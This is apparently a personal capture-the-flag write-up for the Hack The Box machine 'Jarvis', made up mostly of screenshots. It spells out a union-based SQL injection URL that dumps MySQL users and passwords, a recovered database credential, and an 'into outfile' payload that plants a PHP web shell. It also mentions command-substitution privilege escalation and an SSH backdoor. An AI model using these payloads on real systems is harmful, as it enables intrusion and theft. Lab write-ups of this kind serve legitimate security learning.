 # Jarvis - 10.10.10.143

Created: July 3, 2021 10:11 AM

nmap:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled.png)

dns name:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%201.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%201.png)

looks like it runs sql:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%202.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%202.png)

gobuster is pretty much useless.

run on all rooms:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%203.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%203.png)

entering ' breaks it:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%204.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%204.png)

SELECT * FROM rooms WHERE cod**=2 union select** 

we can inject SQL queries after that.

since we dont get any error message its probably an union based SQLi.

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%205.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%205.png)

7 params it is.

user:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%206.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%206.png)

DB:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%207.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%207.png)

version:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%208.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%208.png)

user and password:

[http://10.10.10.143/room.php?cod=999 union select 1,user,password,4,5,6,7 from mysql.user](http://10.10.10.143/room.php?cod=999%20union%20select%201,user,password,4,5,6,7%20from%20mysql.user)

load file:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%209.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%209.png)

get db user and pass:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2010.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2010.png)

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2011.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2011.png)

DBadmin::imissyou

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2012.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2012.png)

taking different route - using sqli to get shell.

injecting cmd2.php file:

[http://10.10.10.143/room.php?cod=1+union+select+1,2,3,4,5,6,'<?php system($_GET["cmd"]); ?>' into outfile '/var/www/html/cmd2.php'](http://10.10.10.143/room.php?cod=1+union+select+1,2,3,4,5,6,%27%3C?php%20system($_GET%5B%22cmd%22%5D);%20?%3E%27%20into%20outfile%20%27/var/www/html/cmd2.php%27)

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2013.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2013.png)

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2014.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2014.png)

reverse shell:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2015.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2015.png)

priv esc to pepper:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2016.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2016.png)

chaining commands:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2017.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2017.png)

we still can use the **$(command)**

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2018.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2018.png)

running command as pepper:

sudo -u pepper

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2019.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2019.png)

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2020.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2020.png)

creating ssh backdoor on pepper:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2021.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2021.png)

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2022.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2022.png)

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2023.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2023.png)

weird process:

cant access it

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2024.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2024.png)

binary:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2025.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2025.png)

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2026.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2026.png)

getting root:

![Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2027.png](Jarvis%20-%2010%2010%2010%20143%20bc5b3daa7d8644a0812781140de4c57a/Untitled%2027.png)